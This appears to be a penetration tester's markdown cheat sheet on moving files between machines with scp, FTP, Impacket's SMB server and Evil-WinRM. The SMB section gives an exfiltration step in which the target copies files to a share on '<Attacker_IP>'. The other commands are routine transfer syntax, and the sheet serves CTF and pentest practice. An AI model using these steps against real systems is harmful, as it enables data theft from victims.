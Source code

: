 # File Transfers

### SSH
 - `scp [OPTION] [user@]SRC_HOST:]file1 [user@]DEST_HOST:]file2` (`-r` for recersive)
 - copy local file to remote: `scp file.txt remote_username@10.10.0.2:/remote/directory`
 - copy remote file to local: `scp remote_username@10.10.0.2:/remote/file.txt /local/directory`
   
### FTP
 - Upload to server: `put c:\files\file1.txt`
 - Download from server: `get c:\files\file1.txt`
 - Upload multiple files: use `lcd` to traverse kali; then `put *.txt` to put all files to server
 - Downlod multiple files: use `lcd` to traverse kale; then `mget *.txt` to pull all files to server
   
### SMB
 - Follow SMB Client Cheet Sheet
 - Use Impacket-smbserver
1. mkdir smb
2. #Attacker: sudo impacket-smbserver -smb2support share $(pwd)
3. #Target: copy <my_files>.zip \\<Attacker_IP>\share;
4. Clean up smb shares (delete file and close connection)

### Evil-WinRM

upload
download
